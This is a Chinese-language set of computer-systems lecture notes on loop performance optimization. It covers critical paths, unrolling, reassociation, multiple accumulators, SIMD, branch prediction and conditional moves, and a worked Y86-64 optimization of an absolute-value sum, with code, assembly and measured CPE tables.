关键路径要找的是跨迭代的相关链，可以按四步来做。第一步，读循环体的汇编，把每条指令拆成操作（加载、运算、存储），标出每个操作读哪些寄存器、写哪些寄存器。第二步，给寄存器分类：只读寄存器在循环中只读不写（如数组末地址）；循环寄存器本次迭代写、下一次迭代读（如 i 和累积变量）；其余是只在一次迭代内部使用的临时寄存器（如装 d[i] 的寄存器）。只有循环寄存器能把相邻两次迭代连起来，所以只需要追踪它们。
第三步，对每个循环寄存器，从它在迭代开始时的值出发，沿数据相关追到它在迭代末尾的新值，把途经操作的延迟加起来，就是这条链每次迭代的长度。只计入输入中含有这条链上的值的操作：加载 d[i] 只依赖 i，结果流入累积链，却不受累积链影响，可以提前做，不在累积链上。第四步，取最长的一条链，除以每次迭代处理的元素个数，得到延迟界限给出的 CPE 下界；再与表 5中的吞吐量界限比较，实际 CPE 至少是两者中较大的那个。
以 combine4（double 乘法）为例：循环寄存器是 %rdx（i）和 %xmm0（acc）。%rdx 链上只有一次加 1，1 个周期；%xmm0 链上，加载出的 d[i] 只是乘法的另一个输入，链上只有一次乘法，Haswell 上 5 个周期。最长的是 5，每次迭代处理 1 个元素，CPE 下界为 5.00，与教材的 5.01 一致。同样的方法也适用于 14.14 节的 2×1a：循环体是 acc = acc OP (d[i] OP d[i+1])，括号内的运算不读 acc，不在链上，链上每次迭代仍只有一次运算，却处理 2 个元素，下界降为 D/2。第三部分作业 5.13 的 inner4 也一样：乘法 udata[i] × vdata[i] 不在 sum 链上，链上只有浮点加法，CPE 下界是加法的延迟 3。
有两种情况容易漏掉。一是几个循环寄存器互相依赖，例如本次的 a 由上次的 b 算出、本次的 b 又由上次的 a 算出。这时要把它们合成一个环，环上所有运算的延迟之和，除以这个环跨越的迭代次数，才是每次迭代的长度。二是相关也可能经过内存：一次迭代写入 p[i]，下一次迭代又把它读出来（如 14.9 节的 psum1，教材 5.12 节），存储和加载之间就形成一条链，链长要算上“写入内存到读出”的时间。
14.13 循环展开 2×1（课件 p.46–47，教材 5.8 节）#
循环展开（loop unrolling）是在每次迭代中处理多个元素，从而减少迭代次数。课件 p.46 的版本每次迭代处理两个元素（教材称为 combine5，记作 2×1：展开 2 次、1 个累积变量）：
void unroll2a_combine(vec_ptr v, data_t *dest) /* 教材的 combine5 */
{
long length = vec_length(v);
long limit = length-1;
data_t *d = get_vec_start(v);
data_t x = IDENT;
long i;
/* Combine 2 elements at a time */
for (i = 0; i < limit; i+=2) {
x = (x OP d[i]) OP d[i+1];
}
/* Finish any remaining elements */
for (; i < length; i++) {
x = x OP d[i];
}
*dest = x;
}注意两点。第一，主循环的上界是 length – 1：只有当 i + 1 < length 时才能一次取两个元素，否则会越界。第二，长度为奇数时，最后剩下的一个元素由第二个循环逐个处理。展开 k 次时，上界写成 length – k + 1，剩余的不超过 k – 1 个元素同样逐个处理。
循环展开减少了循环开销：每处理两个元素，下标加 1、比较、跳转这几条指令只执行一次。课件 p.47 的结果（表 6）显示，Haswell 上只有整数加法从 1.27 降到 1.01，达到了延迟界限；其余三种运算纹丝不动。原因从图 6（a）一眼可见：x = (x OP d[i]) OP d[i+1] 仍然是一个累积变量、每次并入一个元素，n 个 OP 仍排成一条顺序相关的链，关键路径没有变短。默认环境上 combine4 的整数加法本来就已经是 1.00，2×1 自然没有任何改善。
14.14 重新结合 2×1a（课件 p.48–50，教材 5.9.2 节）#
课件 p.48 只改动了一对括号（教材称为 combine7，记作 2×1a，a 表示 reassociation）：
x = (x OP d[i]) OP d[i+1]; /* 2×1：先并入 d[i]，再并入 d[i+1] */
x = x OP (d[i] OP d[i+1]); /* 2×1a：先把两个新元素合并，再并入 x */效果却很显著（表 6）：Haswell 上整数乘法、浮点加法、浮点乘法的 CPE 都几乎减半，达到 1.51、1.51、2.51；默认环境上四种运算都恰好减半。课件 p.50 解释了原因（图 6（b））：d[i] OP d[i+1] 不依赖 x，可以提前计算——下一次迭代的这个运算在本次迭代还没结束时就能开始。于是关键路径上只剩下“x OP (…)”这一个运算，n 个元素只有 n/2 个运算在链上。设每个运算延迟为 D，总时间约为 (n/2 + 1) × D，CPE = D/2。从数据流的角度看，每次迭代有两个运算，只有一个在跨迭代的链上，另一个可以与链上的运算并行执行。
那么，这种变换会不会改变计算结果呢？这是课件 p.48 的设问。对整数，不会：第 2 讲讲过，补码加法和乘法即使溢出也满足交换律和结合律，2×1a 与 2×1 的结果在任何输入下都相同。对浮点数，会：第 3 讲讲过，浮点加法和乘法要舍入、可能溢出，不满足结合律。例如 (1e20 + (–1e20)) + 3.14 = 3.14，而 1e20 + ((–1e20) + 3.14) = 0，因为 3.14 在与 –1e20 相加时被舍入掉了；又如 (1e300 × 1e300) × 1e–300 先溢出成 +∞，而 1e300 × (1e300 × 1e–300) = 1e300（默认环境实测）。正因为结果可能不同，编译器不会自动对浮点运算做重新结合（gcc 只有在加上 -ffast-math 这类“允许不严格遵守 IEEE 标准”的选项时才会做）。对大多数实际应用，例如把一组测量值加起来，结合顺序引起的微小差异无关紧要，程序员可以自行决定这样改写。
14.15 多个累积变量 2×2（课件 p.51–53，教材 5.9.1 节）#
另一种打破顺序相关的办法是使用多个累积变量。课件 p.51 的版本（教材称为 combine6，记作 2×2：展开 2 次、2 个累积变量）用 x0 累积偶数下标的元素、x1 累积奇数下标的元素，最后再合并：
data_t x0 = IDENT;
data_t x1 = IDENT;
/* Combine 2 elements at a time */
for (i = 0; i < limit; i+=2) {
x0 = x0 OP d[i];
x1 = x1 OP d[i+1];
}
/* Finish any remaining elements */
for (; i < length; i++) {
x0 = x0 OP d[i];
}
*dest = x0 OP x1;⚠ 课件 p.46、p.48、p.51 的函数名
课件把 2×1 版（p.46）和 2×2 版（p.51）都命名为 unroll2a_combine，2×1a 版（p.48）命名为 unroll2aa_combine。三段代码不同，名字却有两个重复，容易混淆。本讲义沿用教材的名字和记号：2×1 是 combine5，2×2 是 combine6，2×1a 是 combine7；“k×m”表示展开 k 次、使用 m 个累积变量，后缀 a 表示重新结合。
现在有两条相互独立的“流”（课件 p.53，图 6（c））：x0 链和 x1 链各有 n/2 个运算，它们互不相关，可以在流水化的功能单元中交错执行。总时间约为 (n/2 + 1) × D，CPE = D/2，与预测完全一致（课件 p.53 的“CPE matches prediction!”）。从表 6看，对整数乘法和两种浮点运算，2×2 与 2×1a 的效果相同；对 Haswell 上的整数加法，2×2 达到 0.81，比 2×1a 更好（课件 p.52 的解释是“利用了两个加载单元”）。2×2 也是一种重新结合（课件 p.51）：最后的结果相当于 (d0 OP d2 OP d4 …) OP (d1 OP d3 OP d5 …)，对浮点数同样可能与顺序计算的结果略有不同。
表 6 循环展开与重新结合的效果（左为课件 p.47、p.49、p.52 的 Haswell 数据，右为默认环境实测）
| 方法 | 教材 整数 + | 教材 整数 × | 教材 浮点 + | 教材 浮点 × | 实测 整数 + | 实测 整数 × | 实测 浮点 + | 实测 浮点 × |
|---|---|---|---|---|---|---|---|---|
| combine4 | 1.27 | 3.01 | 3.01 | 5.01 | 1.00 | 3.00 | 2.00 | 3.00 |
| 2×1（combine5） | 1.01 | 3.01 | 3.01 | 5.01 | 1.00 | 3.00 | 2.00 | 3.00 |
| 2×1a（combine7） | 1.01 | 1.51 | 1.51 | 2.51 | 0.50 | 1.50 | 1.00 | 1.50 |
| 2×2（combine6） | 0.81 | 1.51 | 1.51 | 2.51 | 0.50 | 1.50 | 1.00 | 1.50 |
| 延迟界限 | 1.00 | 3.00 | 3.00 | 5.00 | 1.00 | 3.00 | 2.00 | 3.00 |
| 吞吐量界限 | 0.50 | 1.00 | 1.00 | 0.50 | 0.33 | 1.00 | 0.50 | 0.50 |
14.16 展开与累积的一般规律（课件 p.54–57，教材 5.9 节）#
把两种做法推广（课件 p.54）：循环可以展开任意 L 次，同时用 K 个累积变量并行累积，L 必须是 K 的倍数（每个累积变量每次迭代并入 L/K 个元素）。它的局限也很明显：收益递减，CPE 不可能低于执行单元的吞吐量界限；向量很短时，开销反而变大，因为剩余的元素要逐个处理。
课件 p.55、p.56 给出了 Haswell 上浮点乘法和整数加法在各种 (L, K) 下的 CPE。规律是：只要 K 不变，L 再大也没有用——K = 1 的一行全是 5.01（浮点乘法）；K 增大，CPE 按“延迟 / K”下降，直到碰到吞吐量界限。表 7是默认环境上用同样的程序重测的结果，规律完全相同。
表 7 默认环境上 L × K 展开的 CPE（gcc -O1；左表 double 乘法：延迟界限 3.00、吞吐量界限 0.50；右表 long 加法：延迟界限 1.00、吞吐量界限 0.33）
| K＼L | 1 | 2 | 3 | 4 | 6 | 8 | 10 | 12 | 1 | 2 | 3 | 4 | 6 | 8 | 10 | 12 | |
|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|---|
| 1 | 3.00 | 3.00 | 3.00 | 2.96 | 2.91 | 3.00 | 3.07 | 3.04 | 1.00 | 1.03 | 1.03 | 1.04 | 1.01 | 1.01 | 1.04 | 1.06 | |
| 2 | 1.50 | 1.45 | 1.50 | 1.52 | 1.52 | 1.52 | 0.52 | 0.52 | 0.53 | 0.54 | 0.55 | 0.56 | |||||
| 3 | 1.00 | 1.00 | 1.01 | 0.48 | 0.39 | 0.41 | |||||||||||
| 4 | 0.73 | 0.81 | 0.78 | 0.37 | 0.37 | 0.37 | |||||||||||
| 6 | 0.64 | 0.66 | 0.35 | 0.36 | |||||||||||||
| 8 | 0.51 | 0.34 | |||||||||||||||
| 10 | 0.50 | 0.35 | |||||||||||||||
| 12 | 0.52 | 0.35 |
为什么要 K 个累积变量才能“喂饱”功能单元？设一种运算的延迟为 Lop（为与展开次数 L 区分，这里加下标）、容量为 C。要达到吞吐量界限，每个周期都要有 C 个新运算开始；而每条累积链上的下一个运算要等上一个结束，即每条链每 Lop 个周期才能开始一个运算。所以需要至少 K ≥ C × Lop 条相互独立的链（教材 5.9.1 节）。Haswell 的浮点乘法 C = 2、Lop = 5，需要 K ≥ 10，课件 p.55 中 K = 10 时达到 0.51；浮点加法 C = 1、Lop = 3，K ≥ 3 即可。默认环境的浮点乘法 C = 2、Lop = 3，需要 K ≥ 6：K = 4 时是 3/4 = 0.75（实测 0.73），K ≥ 8 时达到 0.50～0.52（K = 6 时实测 0.64，略高于界限，是因为每次迭代还有加载和循环控制要争用执行资源）。long 加法的延迟只有 1，K = 2 时是 0.50，K = 3 起就接近 3 个加载单元决定的 0.33。
图 7 是默认环境上 k × k 展开（展开次数等于累积变量个数）的 CPE 曲线，对应教材图 5.25。曲线右端出现了课件没有讲的现象：k 增大到 16、20、24 时，CPE 反而回升。原因是 x86-64 只有 16 个通用寄存器和 16 个 %xmm 寄存器（不用 AVX-512 时），累积变量多到寄存器放不下，编译器只好把一部分放到栈上，这叫寄存器溢出（register spilling，教材 5.11.1 节）。查看汇编，long 的 24×24 版内层循环中有几十条 addq %rdx, 8(%rsp) 这样读写栈的指令，每个累积变量的更新又变回了“读内存—运算—写内存”。
图 7 k × k 循环展开的 CPE（默认环境实测，gcc -O1）：k 足够大时逼近吞吐量界限，k 过大时寄存器溢出
⚠ 课件 p.56 的吞吐量界限写错了
课件 p.56 的标题栏写“Integer addition. Latency bound: 1.00. Throughput bound: 1.00”，但同一份课件的 p.49、p.52、p.57 都写整数加法的吞吐量界限是 0.50，表中最好的结果 0.54 也低于 1.00——如果界限真是 1.00，就不可能测出比它更小的值。正确的值是 0.50：Haswell 有 4 个能做整数加法的单元，但只有 2 个加载单元，每周期最多读 2 个元素（教材 5.7.2 节）。
课件 p.57 汇总了各种运算能达到的最好结果：Haswell 上是 0.54、1.01、1.01、0.52，只受功能单元吞吐量的限制，比最初未优化的 combine1 快了最多 42 倍（22.68 / 0.54）。默认环境上最好的标量结果是 0.34、1.00、0.50、0.50，同样贴着吞吐量界限；与不开优化的 combine1 相比快了 9～25 倍。
14.17 SIMD 向量指令（课件 p.58–60）#
吞吐量界限是“每个周期最多完成几次运算”；如果一条指令能同时完成多次运算，界限就被打破了。这就是 SIMD（Single Instruction, Multiple Data，单指令多数据）。x86-64 的 AVX2 扩展提供 16 个 YMM 寄存器（%ymm0～%ymm15），每个 32 字节（课件 p.58，图 8）。一个 YMM 寄存器可以看成 32 个单字节整数、16 个 16 位整数、8 个 32 位整数、8 个单精度浮点数或 4 个双精度浮点数；做标量浮点运算时，只用它最低的 4 或 8 个字节（这正是第 7 讲以来看到的 %xmm 寄存器——%xmm0 就是 %ymm0 的低 16 字节）。
图 8 一个 32 字节的 YMM 寄存器的几种用法（课件 p.58）
一条 SIMD 指令对寄存器中所有对应位置的数据同时做同一种运算（课件 p.59）：vaddps %ymm0, %ymm1, %ymm1 把 8 对单精度浮点数分别相加，vaddpd %ymm0, %ymm1, %ymm1 把 4 对双精度浮点数分别相加。指令名的后缀 ps 表示 packed single（打包的单精度），pd 表示 packed double；第 7 讲以来见过的 ss、sd 后缀表示 scalar single、scalar double，只运算最低的一个数。
⚠ 课件 p.59 单精度的指令名写错了
课件 p.59 上半部分标题是“SIMD Operations: Single Precision”，图中 8 个加法并行进行，但指令写成了 vaddsd。vaddsd 是标量双精度加法，只计算最低的一个 double；对 8 个单精度浮点数做打包加法的指令应是 vaddps。下半部分双精度的 vaddpd 是正确的。
用 SIMD 改写 combine，思路与 14.15 节完全相同，只是累积变量换成了向量：每个向量累积变量一次并入 8 个 int 或 4 个 double，K 个向量累积变量交错执行以隐藏延迟，最后把所有向量的各个分量合并起来。教材的网络旁注 OPT:SIMD 用 gcc 的向量扩展语法（typedef data_t vec_t __attribute__((vector_size(32)));）编写，讲义的实验程序也用这种写法。表 8 给出结果。
表 8 SIMD 的效果（整数为 32 位 int，一个向量 8 个；浮点为 double，一个向量 4 个）
| 方法 | 整数 + | 整数 × | 浮点 + | 浮点 × |
|---|---|---|---|---|
| 课件 p.60：标量最好（Haswell） | 0.54 | 1.01 | 1.01 | 0.52 |
| 课件 p.60：向量最好（Haswell） | 0.06 | 0.24 | 0.25 | 0.16 |
| 课件 p.60：向量吞吐量界限 | 0.06 | 0.12 | 0.25 | 0.12 |
| 默认环境：标量最好（14.16 节） | 0.34 | 1.00 | 0.50 | 0.50 |
| 默认环境：向量，1 个向量累积变量 | 0.13 | 1.32 | 0.51 | 0.77 |
| 默认环境：向量，12 个向量累积变量 | 0.06 | 0.15 | 0.13 | 0.13 |
| 默认环境：combine4，gcc -O3 -mavx2 自动向量化 | 0.13 | 1.29 | 2.02 | 3.00 |
| 默认环境：同上，再加 -ffast-math | 0.13 | 1.34 | 0.50 | 0.77 |
从表中可以读出三点。第一，SIMD 带来的提升大致是“一个向量装几个数”倍：浮点从 0.50 降到 0.13，约 4 倍；整数加法从 0.34 降到 0.06，约 6 倍。第二，向量版同样受延迟界限约束，同样需要多个累积变量：只用 1 个向量累积变量时，浮点乘法是 3（延迟）/ 4（每向量个数）≈ 0.75，整数乘法是约 10 个周期的向量乘法延迟除以 8，约 1.3；用到 12 个向量累积变量才逼近吞吐量。第三，gcc 能自动向量化，但不会替你重新结合浮点运算：-O3 -mavx2 下整数版 combine4 被自动向量化（整数加法 0.13），double 版却原封不动（2.02、3.00）——把累加拆到 4 个分量上，本身就是一种重新结合；加上 -ffast-math 允许改变浮点运算的结合顺序后，double 版才被向量化。而自动向量化只用了 1 个向量累积变量，乘法仍被向量乘法的延迟卡住，离手写的 12 个累积变量的版本还差得远。
⚠ 课件 p.60 表中整数加法的延迟界限
课件 p.60 表中“Latency Bound”一行整数加法写成 0.50，与 p.44、p.49、p.57 的 1.00 不一致。整数加法的延迟是 1 个周期，延迟界限应为 1.00；0.50 是它的（标量）吞吐量界限。
14.18 分支预测与条件传送（课件 p.61–68，教材 5.7、5.11.2 节）#
分支的麻烦在于取指（课件 p.61–63）。14.11 节说过，指令控制单元必须远远走在执行单元前面，才能生成足够多的操作让执行单元忙起来。遇到条件分支时，ICU 却无法确定从哪里继续取指：分支跳转（taken）就从目标地址继续，不跳转（not taken）就继续执行下一条；而条件要等分支单元或整数单元执行完比较之后才能确定。
处理器的对策是分支预测（课件 p.64），说穿了就是猜：预测分支往哪个方向走，从预测的位置开始取指、译码，甚至执行，但在确认预测正确之前不真正修改寄存器或内存——这就是 14.11 节的投机执行。课件 p.65 用 combine4 的循环说明：向量长度为 100，循环末尾的 jne 每次都预测“跳转”。i = 98 时预测正确；i = 99 时预测跳转，处理器接着执行了 i = 100、i = 101 的指令，其中的 vmulsd 甚至读了数组之外的位置（“Read invalid location”）——但这些都是投机执行，结果没有提交。等到 i = 99 那次的比较完成，发现应该不跳转，处理器就把预测路径上的所有操作作废（p.66），回到分支处，从正确的地址（循环后面的 vmovsd %xmm0, (%r12)）重新取指（p.67）。
猜错要付出的代价（课件 p.67）是在现代处理器上浪费许多个时钟周期——作废的工作白做了，流水线还要重新填满。教材给出的参考机上约为 19 个周期。这可能成为主要的性能瓶颈。
那么预测有多准呢？课件 p.68 介绍了最简单的默认策略：向后的分支多半是循环，预测跳转；向前的分支多半是 if，预测不跳转。实际的预测器会记录每个分支的历史，平均准确率超过 95%，大多数分支本来就是可预测的。例如 combine2 中 get_vec_element 的边界检查永远不越界，预测总是正确，它的代价只是几条与关键路径并行执行的指令——这就是 14.10 节 combine3 没有带来改善的原因之一。真正有害的是方向随数据随机变化的分支。
实测：随机数据与有序数据（课件 p.68 的 Stack Overflow 链接）
课件 p.68 给出的链接讨论了一个著名的问题：“为什么处理有序数组比处理无序数组快？”在默认环境上用 65 536 个 0～255 之间的随机整数重现：对每个元素判断 if (d[i] >= 128) s += d[i];。为了保留条件分支，编译时加 -fno-if-conversion -fno-if-conversion2。数据随机时，这个分支有一半的概率猜错，每个元素约 12～13.5 个周期；把同样的数据排好序后，分支先一直不跳转、再一直跳转，几乎总能猜对，每个元素约 1.0 个周期。由此估算，一次预测失败的代价约 20 多个周期。
不加这两个选项时，gcc -O1 会把这个 if 翻译成条件传送（第 5 讲），不再有分支：无论数据是否有序，都是每个元素 2.0 个周期。条件传送要把两种结果都算出来再选择，比猜对的分支慢一点，但永远不会付出预测失败的代价。用位运算手工写成无分支的形式（s += d[i] & -(d[i] >= 128);）同样与数据无关，约 1.1 个周期。
既然随机分支的代价这么大，程序员能做些什么？教材 5.11.2 节的建议是写出适合条件传送的代码。对于无法预测的分支，最好的办法是让编译器把它翻译成条件传送。但编译器并不总能做到：如果 if 的分支里有写内存的操作，翻译成条件传送就意味着无论条件如何都要写，可能改变程序的行为，编译器不会这样做。教材的例子是把两个数组 a、b 中每对元素的较小者放进 a、较大者放进 b：
/* minmax1：命令式写法，交换写在 if 里面 */
void minmax1(long a[], long b[], long n) {
for (long i = 0; i < n; i++)
if (a[i] > b[i]) {
long t = a[i]; a[i] = b[i]; b[i] = t;
}
}
/* minmax2：函数式写法，先算出两个值，再无条件地写回 */
void minmax2(long a[], long b[], long n) {
for (long i = 0; i < n; i++) {
long min = a[i] < b[i] ? a[i] : b[i];
long max = a[i] < b[i] ? b[i] : a[i];
a[i] = min;
b[i] = max;
}
}教材在 Haswell 上测得 minmax1 对随机数据约 13.5、对可预测数据约 2.5～3.5，minmax2 无论数据如何都约 4.0。默认环境上（gcc -O1，默认选项）：minmax1 对随机数据约 13.1～14.7、对可预测数据（总有 a[i] < b[i]）约 1.3～1.5，minmax2 约 2.3～2.6、与数据无关。查看汇编，minmax1 保留了条件分支，minmax2 被翻译成了两条 cmov 指令。结论与教材相同：数据可预测时，分支很便宜；数据不可预测时，改用函数式写法，让编译器生成条件传送。
常见问题：为什么用小数组测随机分支，看不出预测失败的代价？
最初用 4096 个随机数、把同一个数组反复处理几百次来测上面的例子，随机数据只比有序数据慢 2.3 个周期左右，远小于 65 536 个元素时的 11 个周期以上。原因是现代分支预测器会记住相当长的历史：同一段 4096 个结果的序列一遍遍重复出现，预测器“背下”了其中很大一部分。测量分支预测的代价时，数据要足够长，或者每次都换新的随机数据；否则测到的是预测器的记忆力，而不是预测失败的代价。
14.19 本讲小结：获得高性能（课件 p.69）#
课件最后一页把本讲浓缩成三条。第一，用好的编译器和合适的选项。第二，不要做“愚蠢”的事：留意隐藏的算法低效（如 lower1 中每次调用 strlen 使线性算法变成平方）；写编译器容易优化的代码；警惕妨碍优化的两个因素——过程调用和内存引用；重点审视最内层的循环，那里是大部分工作发生的地方。第三，针对机器调优：利用指令级并行（循环展开、多个累积变量、重新结合，必要时用 SIMD）；避免不可预测的分支（改写成编译器能翻译为条件传送的形式）；让代码对缓存友好（第 13 讲）。
★ 优化循环的分析步骤
分析一个循环，第一步是消除明显的开销：把不变的计算（尤其是函数调用）移出循环，在局部变量中累积以避免每次迭代读写内存，去掉不必要的边界检查和过程调用。做完这一步，循环通常已经到达延迟界限。
要知道还能快多少，第二步就要画出数据流图，找出跨迭代的相关链——链上每次迭代的运算延迟之和就是 CPE 的下界（延迟界限）；第三步再估算吞吐量界限，即按每种运算的次数和“容量 / 发射时间”算出每个元素至少要几个周期，同时别忘了加载单元的个数也是一个界限。两个界限之间的差距，就是还可以争取的空间。
第四步用 K 个累积变量或重新结合打破顺序相关，让关键路径缩短为原来的 1/K，直到 CPE 接近吞吐量界限；K 大约取 C × Lop，但不宜大到寄存器放不下。最后，还要看看能否改用 SIMD，以及循环中有没有方向随数据随机变化的分支。
14.20 专题：从源程序到 HCL，彻底优化一个 Y86-64 函数（综合第 9–11 讲与本讲）#
前面各节的优化都是在 x86-64 上做的。那台机器的结构是固定的，程序员能改的只有源程序和汇编。教材第 4 章的 Y86-64 却不一样：处理器 PIPE 的每一个控制信号都写在 HCL 里，指令集和硬件都可以改。这样一来，“优化一个程序”就可以一路做到底：先在源程序层面去掉多余的工作，再在汇编层面安排指令，最后修改处理器本身。Arch Lab 的 Part C 就是这种形式的任务：对给定的函数，同时修改 Y86-64 汇编和 PIPE 的 HCL，用 CPE 计分。本节换用一个不同的函数，把三个层次的手法依次走一遍，每一步都在按 pipe-full.hcl 逐块转写的 PIPE 模型上实测。
问题与度量#
要优化的函数是对数组元素的绝对值求和：
long absum(long *src, long len)
{
long s = 0;
for (long i = 0; i < len; i++)
s += labs(src[i]);
return s;
}Y86-64 的调用约定与 x86-64 相同：src 在 %rdi，len 在 %rsi，返回值在 %rax。测量用一段固定的驱动程序：设置栈指针和两个参数，call absum，halt。PIPE 模型从第一条指令取指算起，到 halt 为止，记下总周期数 T(n)。和 14.9 节一样，取 n = 1～64，用最小二乘法拟合 T(n) = CPE × n + 固定开销，斜率就是 CPE。驱动程序的开销只影响截距，不影响斜率。
这个函数有一个 x86-64 上的 combine 系列没有的特点：数据的符号会影响执行时间，因为求绝对值时可能用到条件分支。所以每个版本都用三组数据测量。“符号随机”组的元素是 1～99 之间的整数，符号随机取正或负，各个 n 用固定的随机种子，大约一半是负数；“全为正数”组和“全为负数”组的数值范围相同。
每个版本都要先验证正确性。对 n = 0～69 和三组数据，PIPE 模型算出的 %rax 必须等于 Python 直接计算的结果，也必须等于指令集模拟器的结果。三种分支预测策略也都要这样验证。
PIPE 模型的出发点是第 11 讲的模拟器，在其上加了两个选项：一个是 iaddq 指令，另一个是分支预测策略（“总是预测跳转”“总是预测不跳转”“向后跳转、向前不跳转”）。默认设置与 pipe-full.hcl 完全一致，第 11 讲的程序在默认设置下的周期数逐个周期相同。
本节要用到的 PIPE 时序规则都在第 11 讲讲过，归结起来只有四条。没有冒险时，每个周期完成一条指令。mrmovq 或 popq 的目的寄存器如果被紧随其后的指令读取，就是加载/使用冒险，要插入 1 个气泡。条件跳转总是预测跳转，预测错误时，已经取入的 2 条指令被取消，损失 2 个周期。ret 要等返回地址从内存读出，插入 3 个气泡。除此之外的数据相关都由转发解决，不需要等待。
本节的程序可以直接在实验工具中运行：网页版模拟器和桌面版的 PIPE 视图都支持 iaddq，加上上面的驱动程序就能逐周期观察每一条指令。工具在流水线图下方显示的总周期数与本节的数字逐个相同（已对本节 11 个版本、三组数据、n = 0～19 以及 33、64 逐一核对），并且会把气泡按加载/使用、预测错误和 ret 分类统计，正好对应本节“指令条数 + 气泡数”的算法。工具中的 PIPE 只实现了 pipe-full.hcl 的“总是预测跳转”，加载转发（作业 4.57）可以用开关打开；表 9 中另外两种预测策略的数据，要在“HCL 实验”视图中自己修改 HCL 才能重现（课程基线的 HCL 不含 iaddq，也要一并加上）。
源程序层：先去掉多余的工作#
v0 是照 C 程序逐句翻译的结果：labs 是一个单独的函数，循环里每次调用它。src++ 和 len-- 也按字面翻译：Y86-64 没有“寄存器加立即数”的指令，每次都要先用 irmovq 把常数 8 和 1 装进寄存器，再做加减。
absum:
xorq %rax, %rax # s = 0
andq %rsi, %rsi
jmp test
loop:
mrmovq (%rdi), %rdx # x = *src
call labs # %rcx = labs(x)
addq %rcx, %rax # s += |x|
irmovq $8, %r8
addq %r8, %rdi # src++
irmovq $1, %r8
subq %r8, %rsi # len--
test:
jg loop # while (len > 0)
ret
labs: # %rcx = |%rdx|
rrmovq %rdx, %rcx
andq %rcx, %rcx
jge done
xorq %rcx, %rcx
subq %rdx, %rcx # %rcx = 0 - x
done:
ret数一数正数元素经过的指令，就能算出它的代价。循环本身有 mrmovq、call、addq、两对 irmovq 与加减、jg，共 8 条；labs 中有 rrmovq、andq、jge、ret，共 4 条。12 条指令之外，ret 还要插入 3 个气泡，合计 15 个周期，实测正数组的 CPE 正是 15.00。如果元素是负数，jge 预测跳转但实际不跳转，要损失 2 个周期，再多执行 xorq 和 subq 两条，所以是 19 个周期，实测 19.00。符号随机组的 CPE 为 16.95，约等于两者的平均。
这 15 个周期里，有 6 个与求绝对值的工作本身无关：call 和 ret 两条指令，加上 ret 的 3 个气泡，再加上为传结果而多出的 rrmovq。这正是 14.7 节所说的过程调用的开销。编译器通常会把 labs 这样的小函数内联，v1 就是内联的结果。内联之后正数元素只需 9 条指令，但 mrmovq 后面紧跟着读 %rdx 的 andq，加载/使用冒险插入 1 个气泡，所以是 10 个周期。负数元素多出 xorq、subq、rrmovq 三条，再加 2 个周期的预测错误，共 15 个周期。实测 v1 的三组 CPE 为 12.43、10.00、15.00。
循环里的两条 irmovq 每次装入的都是同样的常数，这是 14.2 节的代码移动。v2 把它们移到循环外，分别放在 %r8、%r9 中，每个元素少了 2 条指令，三组 CPE 降到 10.43、8.00、13.00。到这里，源程序层面能做的事情就做完了：absum 的算法本身是线性的，每个元素都必须读一次、加一次，不可能少于这个工作量。剩下的改进都要深入到指令和硬件。
指令集层：iaddq#
教材练习题 4.3 引入了 iaddq 指令，作业 4.51、4.52 要求在 SEQ 中实现它，4.54 要求在 PIPE 中实现：iaddq V, rB 把立即数 V 加到 rB 上，并像 addq 一样设置条件码。要用它，首先要让处理器支持它。第 10 讲 4.51 题的阶段计算已经说明了 SEQ 中要改哪些控制块，PIPE 要改的地方与 SEQ 一一对应：取指阶段的 instr_valid、need_regids、need_valC 三个集合各加 IIADDQ；译码阶段 d_srcB 取 rB 的一行、d_dstE 写 rB 的一行各加 IIADDQ；执行阶段 aluA 取 E_valC 的一行、aluB 取 E_valB 的一行各加 IIADDQ，set_cc 中的 E_icode == IOPQ 改为 E_icode 属于 {IOPQ, IIADDQ}，后面关于异常的条件不变。
那么冒险控制要不要改呢？不需要。iaddq 和 OPq 一样，结果经 dstE 端口写回，执行阶段产生的 e_valE 由已有的转发路径送给后续指令。它不读内存，不会造成加载/使用冒险；它也不是跳转，不会造成预测错误。所以 pipe-full.hcl 中流水线控制的那几块（F_stall、D_stall、D_bubble、E_bubble 等）一个字都不用动。
有了 iaddq，v3 把 addq %r8, %rdi 换成 iaddq $8, %rdi，把 subq %r9, %rsi 换成 iaddq $-1, %rsi，循环前也不再需要装入常数的两条 irmovq。实测的结果可能出人意料：三组 CPE 与 v2 完全相同（10.43、8.00、13.00），T(n) 只是在每个 n 上都少了 2 个周期。
这是因为 v2 已经把常数移出了循环，每个元素的指令条数并没有因为 iaddq 而减少；iaddq 省掉的只是循环外那两条 irmovq。如果和 v1 比较，iaddq 在循环内的作用就看得清楚了：它一条指令就顶替了 irmovq 加 addq 两条。在 v1 之后直接改用 iaddq，与先做代码移动，效果是一样的。iaddq 的真正价值在后面才显现出来：循环展开以后，每个元素都要占用寄存器，常数不必再占两个寄存器；而且它能直接设置条件码，计数减 1 和判断结束合并成一条指令。
常见问题：既然 iaddq 本身不减少 CPE，为什么说它是“彻底优化”的第一步？
指令集决定了汇编能怎样写。没有 iaddq 时，指针每次加 8、计数每次减 1 都要占用一个寄存器存放常数。8 路展开后，元素已经要用掉 8 个寄存器，求相反数的临时值、累加和、指针、计数还要占 4 个，再加上 %rsp，Y86-64 的 15 个寄存器已经所剩无几。改硬件的收益常常不体现在当前这一版程序上，而在于它让下一步的软件优化成为可能。
汇编层：调度、条件传送与循环展开#
v3 每个正数元素多出的那个气泡，在 图 9（a）的流水线时序中看得很清楚：mrmovq 在第 4 个周期才进入访存阶段，紧随其后的 andq 在第 3 个周期就要在译码阶段读 %rdx。转发也来不及，只能暂停一个周期。
解决办法和第 11 讲的思路一样：在 mrmovq 和 andq 之间放一条与 %rdx 无关的指令。指针加 8 恰好与 %rdx 无关，v4 把 iaddq $8, %rdi 挪到了这个空档（图 9（b））。iaddq 会设置条件码，但紧接着的 andq 又重新设置了一次，所以不影响后面的 jge。气泡消失后，正数元素只需 7 个周期，三组 CPE 为 9.43、7.00、12.00。
loop:
mrmovq (%rdi), %rdx
iaddq $8, %rdi # independent of %rdx: fills the slot
andq %rdx, %rdx # (sets CC again, so iaddq's CC is harmless)
jge pos
xorq %rcx, %rcx
subq %rdx, %rcx
rrmovq %rcx, %rdx # x = -x
pos:
addq %rdx, %rax
iaddq $-1, %rsi
test:
jg loop图 9 absum 的流水线时序（PIPE 模型实测，周期号从该元素的 mrmovq 取指算起；灰色为气泡）
